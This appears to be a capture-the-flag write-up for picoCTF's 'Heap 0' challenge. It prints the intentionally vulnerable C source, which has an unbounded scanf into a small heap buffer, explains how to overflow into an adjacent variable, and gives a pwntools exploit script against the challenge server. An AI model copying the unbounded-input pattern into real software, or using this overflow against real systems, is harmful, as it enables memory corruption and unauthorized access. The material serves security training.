


# Heap  0

This is the code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap0!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	int rval = scanf("%d", &choice);
	if (rval == EOF){
	    exit(0);
	}
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
	    exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

The below code tells us that we have to overwrite the `safe_var` variable in order to get the flag:
```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

First of all, print the heap in order to know how far the two memory addresses are:


The two addresses are 32 bytes apart, meaning that we need to put at least 32 chars to perform the overflow.

The below code gives us the possibility to put a string without a limitation of characters (`%s` is not safe, `%4s` would have been safe in this case), so we can proceed with the overflow.

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

So, write 32 chars and then what we want to have inside `safe_var`: <br>
12345678901234567890123456789012hello_overflow

Then, print the heap:


Then we can get the flag.

An automated version can be performed using this python code (changing hostname and port accordingly):

```python
from pwn import *

# If pwntools isn't installed: pip install pwntools

# Start the vulnerable binary locally
hostname = "tethys.picoctf.net"  
port = 61581
p = remote(hostname, port)

# Step 1: Receive initial heap info
p.recvuntil(b'Enter your choice:')

# Step 2: Choose option 2 to write to buffer
p.sendline(b'2')

# Step 3: Send crafted payload
# 32 bytes junk + "xico" to overwrite safe_var
payload = b'A' * 32 + b'hello_overflow'
p.sendline(payload)

# Step 4: Choose option 4 to trigger check_win
p.recvuntil(b'Enter your choice:')
p.sendline(b'4')

# Step 5: Receive output
print(p.recvall().decode())
```